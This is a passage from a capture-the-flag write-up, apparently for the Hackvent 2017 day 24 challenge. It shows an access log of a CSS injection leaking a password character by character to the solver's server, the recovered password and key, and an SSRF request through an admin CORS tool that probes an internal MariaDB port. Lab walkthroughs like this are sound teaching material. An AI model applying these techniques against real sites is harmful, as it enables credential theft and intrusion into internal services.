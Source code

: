 ```
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?t HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?m HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?a HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?2 HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?0 HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?1 HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
80.74.140.188 - - [24/Dec/2017:12:37:58 +0100] "GET /HACKVENT24/?7 HTTP/1.1" 404 193 "http://hv24/uploads/style_9175d7196dbe036119871e101ea36561.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/63.0.3239.84 Safari/537.36"
```

The password can be guessed from here (only the second `s` is missing), it was Christmas2017. Then one only has to login to the form using this password to get the URL to the second stage:
```
challenges.hackvent.hacking-lab.com:1088?key=E7g24fPcZgL5dg78
```

## Stage 2
In this tage we had access to the admin panel of the application. Several tools were available, I found the CORS tool most interesting but it was not to be exploited. Still, I found that the servers uses MySql using this tool and sending the following query:
```
GET /php/api.php?function=cors&argument=http://localhost:3306&key=E7g24fPcZgL5dg78 HTTP/1.1
Host: challenges.hackvent.hacking-lab.com:1088
X-Requested-With: XMLHttpRequest
Connection: close
```

The response shows the version of the server:
```
HTTP/1.1 200 OK
Date: Wed, 27 Dec 2017 07:07:51 GMT
Server: Apache/2.4.25 (Debian)
Content-Length: 37
Connection: close
Content-Type: text/html; charset=UTF-8b5.5.5-10.1.26-MariaDB-0+deb9u1ý
```

Since the headers were displayed on the website unencoded it was also possible to do reflected XSS by including a special header in the configuration of some webserver but this was not useful for the challenge. The Certificate signing tool had to be exploited. It was possible to send a CSR and a signed certificate would be sent in return.
